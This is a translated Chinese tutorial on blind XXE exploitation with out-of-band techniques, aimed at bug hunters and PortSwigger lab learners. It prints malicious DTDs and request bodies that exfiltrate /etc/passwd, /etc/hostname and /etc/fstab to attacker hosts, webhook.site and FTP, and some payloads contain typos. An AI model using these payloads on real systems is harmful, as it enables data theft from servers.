


盲XXE攻击 -带外交互技术(OAST) 泄露数据

- - -

# 盲XXE攻击 -带外交互技术(OAST) 泄露数据

> 译者注: 本文为翻译文章，这篇文章基本涵盖了盲XXE比较少见的问题的解决方案，值得细看。

hi,大家好! 本篇文章将介绍高级XXE攻击,需要使用带外交互技术来带出敏感数据。如果你想要学习更多关于基础XXE攻击向量，请继续阅读[本文](https://shreyapohekar.com/blogs/xxe-simplified-the-concept-attacks-and-mitigations/)。

## 盲XXE的基础知识

服务器可能接受Body中的XML数据，但是它不一定总是会在响应中返回值。但是，如果您仍然认为应用可能容易受到XXE攻击，OAST则可以作为验证的选择。

## 步骤

要触发带外交互，你必须定义一个外部实体，如下所示

```plain
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com">] >
```

然后，您将在XML文档的数据值部分使用已经定义的实体。如果这个应用程序容易受到攻击，服务器则要发送一个http请求到您的URL。攻击可以监视DNS查找和http请求来说明攻击成功了。

您可以使用burp-collaborator来生成您的URL。

-   它使用自己专有的域名，并且该服务器已经注册为该域的权威DNS服务器
-   它提供DNS服务，使用自己自身的IP地址回答在其注册域(子域)的任何DNS查询
-   他提供HTTP/HTTPS服务，并使用有效的，CA签名的通配符TLS证书作为其域名。
-   提供SMTP/SMTPS服务

当收到来自易受攻击的服务器的交互时，burp协作者的屏幕如下所示:

[](https://xzfile.aliyuncs.com/media/upload/picture/20210501135009-16f36936-aa41-1.png)

但是，burp collaborator客户端仅在**burp专业版中**可用，并且可以通过burp-> burp collaborator client进行访问。

您可能会发现常规实体被阻止的例子，这可能是由于某些输入检查或者强化了XML解析器级别所导致的。在这种情况下，您可以使用XML参数实体。

## XML参数实体

这些是特殊类型的XML实体，只能在DTD中引用。

### 声明

```plain
<!ENTITY % paramentity "my test value">
```

### 引用

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

要检验的您的学习状态，可以遵循[portswigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)实验

在平台上测试时，只要简单将其表示为错误就足够了，但是如果敏感数据能够被提取，则你可以大大地提高这个漏洞的影响力。

## 让我们看看如何提取数据

创建恶意DTD

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/?x=%file;'>">
%eval;
%exfil;
```

这是存储在某处的恶意DTD文件。例如，portwigger的漏洞利用服务器

在对易受攻击的应用程序的请求中，必须提供到存储漏洞利用的服务器的URL。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210501135021-1dd41d72-aa41-1.png)

这里，参数实体被用于泄露数据。这是在实体内定义实体的示例，参数化实体%file在%eval中被引用。因此，/etc/hostname的内容添加为请求的一部分，并发送给攻击者。当请求被接收时，我们就能查看到主机名。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210501135030-236cc338-aa41-1.png)

主机名是一小段文字，因此很容易检索。但是，如果是较大的文件呢,如`/etc/passwd`。它还有各种各样的坏字符会破坏您的http请求。在这个情况下，最简单的解决方案是对有效负载进行base64编码。

让我们看看如何做到这一点。

在[http://attacker.com/xxe.dtd上创建一个外部DTD](http://attacker.com/xxe.dtd%E4%B8%8A%E5%88%9B%E5%BB%BA%E4%B8%80%E4%B8%AA%E5%A4%96%E9%83%A8DTD)

```plain
<!ENTITY % all "<!ENTITY &#x25; req SYSTEM 'https://webhook.site/b16e2541-f40a-4641-9e12-286439217267/%file;'>">
```

在易受攻击的应用程序中:

```plain
POST /vuln
Host: 1.1.1.1
User-Agent: ....
Content-Length: 123

<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
<!-- load dtd file -->
%dtd;
<!-- Resolve the nested external entity -->
%all;
<!-- resolve the external entity req along with file reference -->
%req;
]>

<app>
<user>foo</user>
<pass>bar</pass>
```

这将会发送携带base64编码的`/etc/passwd`的内容的get请求。然后可以进一步解码以获得原始的文件内容。

但是等一下！！！,这里可能存在由于base64编码的字符串太长而无法作为http请求一部分的来发送的情况。 反馈会说URI太长。

## 解决方案！！

您可以通过使用FTP来泄露数据。这解决了http坏字符的限制。因此，文件无需编码即可传输

要在[http://attacker.com/xxe.dtd上创建的外部dtd](http://attacker.com/xxe.dtd%E4%B8%8A%E5%88%9B%E5%BB%BA%E7%9A%84%E5%A4%96%E9%83%A8dtd)

```plain
<!ENTITY $ file SYSTEM "file:///etc/passwd">
<!ENTITY % req "<!ENTITY abc SYSTEM 'ftp://x.x.x.x:1212/%file; '>">
```

请求Body

```plain
<?xml version=1.0"?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
%dtd;
%req;
]>
<foo>
  &abc;
</foo>
```

本文到这里已经涵盖了许多不同的技术。现在只剩下一种情况。

> 译者注: 上面的原文的payload可能存在一些问题，读者需要自行调试下。

## 如果要检索xml文件怎么办？

当正在进行红队任务时，你不会止步于仅仅发现漏洞。有时，您需要挖掘更多信息。XML文件(例如tomcat-users.xml)就是一个需要挖掘的点。但是使用XXE检索xml/dtd文件时会存在问题。xml文档内的标签将由解析器解析，并将完全改变其含义，这将导致该攻击不会生效。因此我们需要一种不解析XML文档的方法(应该将其视为纯文本文档)

这就是**CDATA**概念的缘由。

-   **PCDATA** 是将由解析器解析的文本。文本内的标签将被视为标记，并且实体将被扩展。
-   **CDATA** 是*不会* 被解析器解析的文本 。文本内的标签**不会**被视为标记，并且实体也不会扩展。

默认情况下，所有内容都是PCDATA，此关键字指定元素必须包含可解析的数据- **< , > , &, ‘ , “**

因此，如果您不想要解析您的XML，请将其包含在CDATA中，让我们看看如何做到这一点。

```plain
<?xml version="1.0"?>
<foo>
<bar><![CDATA[<abc>myContent</abc>]]></bar>
</foo>
```

这将会打印**`<abc> myContent </ abc>`**结果。

让我们快速了解如何检索XML数据。

## 泄露XML文件

创建一个外部dtd为

```plain
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY content '%start;%file;%end;'>">
```

对应用的请求:

```plain
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&content;</data>
```

## 解释

首先，调用**%dtd**,服务器向**[http://attacker.com/evil.dtd](http://attacker.com/evil.dtd)**发出请求，下载玩dtd之后，解析器加载dtd，然后加载%file，被**%start;** and **%end;**包装在**CDATA**中的参数实体。最后，**%all**存放在%start; 到 %end捕获到的内容。一个通用的实体内容正在被定义，该内容可以作为对攻击者响应的一部分。这个场景是结果是反映在响应中的，。所以在对盲XXE进行盲注时，请使用OAST的语法。

这就是这篇博客文章的所有内容，期待在下一篇文章与你相遇。

在那之前，祝福你快乐地挖掘漏洞。

## 参考链接

-   [https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)
-   [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
-   [https://dzone.com/articles/xml-external-entity-xxe-limitations](https://dzone.com/articles/xml-external-entity-xxe-limitations)

> 本文为翻译文章,原文链接:[https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/](https://shreyapohekar.com/blogs/blind-xxe-attacks-out-of-band-interaction-techniques-oast-to-exfilterate-data/)
